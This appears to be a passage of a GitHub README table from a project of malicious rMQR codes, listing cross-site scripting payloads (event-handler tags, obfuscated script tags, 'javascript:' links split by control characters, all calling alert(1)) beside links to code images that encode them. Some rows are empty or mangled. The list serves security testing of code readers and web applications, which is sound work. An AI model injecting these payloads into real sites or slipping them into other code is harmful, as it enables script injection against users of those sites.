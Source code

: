 | `<iframe onload iframe onload="javascript:javascript:alert(1)"></iframe onload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/70.png) |
| `<body onload body onload="javascript:javascript:alert(1)"></body onload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/71.png) |
| `<html onmouseover html onmouseover="javascript:javascript:alert(1)"></html onmouseover>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/72.png) |
| `<object onbeforeload object onbeforeload="javascript:javascript:alert(1)"></object onbeforeload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/73.png) |
| `<body onbeforeunload body onbeforeunload="javascript:javascript:alert(1)"></body onbeforeunload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/74.png) |
| `<body onfocus body onfocus="javascript:javascript:alert(1)"></body onfocus>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/75.png) |
| `<body onkeydown body onkeydown="javascript:javascript:alert(1)"></body onkeydown>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/76.png) |
| `<iframe onbeforeload iframe onbeforeload="javascript:javascript:alert(1)"></iframe onbeforeload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/77.png) |
| `<iframe src iframe src="javascript:javascript:alert(1)"></iframe src>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/78.png) |
| `<svg onload svg onload="javascript:javascript:alert(1)"></svg onload>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/79.png) |
| `<html onmousemove html onmousemove="javascript:javascript:alert(1)"></html onmousemove>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/80.png) |
| `<body onblur body onblur="javascript:javascript:alert(1)"></body onblur>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/81.png) |
| `\x3Cscript>javascript:alert(1)</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/82.png) |
| ``'"`><script>/**\x2Fjavascript:alert(1)// */</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/83.png) |
| `<script>javascript:alert(1)</script\x0D` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/84.png) |
| `<script>javascript:alert(1)</script\x0A` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/85.png) |
| `<script>javascript:alert(1)</script\x0B` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/86.png) |
| `<script charset="\x22>javascript:alert(1)</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/87.png) |
| ```` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/88.png) |
| ``--> <img src=xxx:x onerror=javascript:alert(1)>` -->`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/89.png) |
| ``-->`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/90.png) |
| ``-->`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/91.png) |
| ``-->`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/92.png) |
| ``"'><img src='#\x27 onerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/93.png) |
| `<a href="javascript\x3Ajavascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/94.png) |
| ``"'`><p><svg><script>a='hello\x27;javascript:alert(1)//';</script></p>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/95.png) |
| `<a href="javas\x00cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/96.png) |
| `<a href="javas\x07cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/97.png) |
| `<a href="javas\x0Dcript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/98.png) |
| `<a href="javas\x0Acript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/99.png) |
| `<a href="javas\x08cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/100.png) |
| `<a href="javas\x02cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/101.png) |
| `<a href="javas\x03cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/102.png) |
| `<a href="javas\x04cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/103.png) |
| `<a href="javas\x01cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/104.png) |
| `<a href="javas\x05cript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/105.png) |